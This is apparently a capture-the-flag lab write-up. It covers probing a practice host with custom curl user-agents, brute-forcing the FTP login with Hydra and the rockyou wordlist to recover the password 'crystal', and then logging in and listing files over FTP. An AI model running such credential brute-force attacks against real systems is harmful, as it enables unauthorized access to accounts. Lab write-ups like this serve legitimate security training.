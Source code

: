 1.2 Trying User-Agent

Using the curl tool we make the following request curl -L -A "User-Agent" URL.
 - The curl command with the -L option is used to follow HTTP redirects when making requests;
 - The -A option in the curl command is used to specify a custom user-agent string in the HTTP request header;

death@portals:~/agentsudoctf/$  curl -L -A "C" hxxp://10.10.245.0/

```
Attention chris, <br><br>

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak! <br><br>

From,<br>
Agent R
```
We get information from agent R's that agent Chris's password is weak, so we can try brute force on ssh and ftp.

## 2. Exploitation.

1.1 Using Hydra tool to brute-force services, ssh and ftp.
 - -l LOGIN or -L FILE  login with LOGIN name, or load several logins from FILE;
 - -p PASS  or -P FILE  try password PASS, or load several passwords from FILE;
 - service://server;
 - -V for verbose;

death@portals:~/agentsudoctf$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.245.0 -V

```
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "oliver" - 253 of 14344398 [child 11] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "diana" - 254 of 14344398 [child 12] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "samsung" - 255 of 14344398 [child 14] (0/0)
[ATTEMPT] target 10.10.245.0 - login "chris" - pass "freedom" - 256 of 14344398 [child 15] (0/0)
[21][ftp] host: 10.10.245.0   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-02 22:50:39

```

1.2 Getting into ftp with the credentials.

death@portals:~/agentsudoctf$ ftp
  - open;
  - ip;
  - username;
  - password;
  - mget * The mget command in FTP is used to retrieve multiple files from the remote FTP server to your local machine, * for all; 

```
ftp> open
(to) 10.10.245.0
Connected to 10.10.245.0.
220 (vsFTPd 3.0.3)
Name (10.10.245.0:death): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||18570|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 29  2019 .
```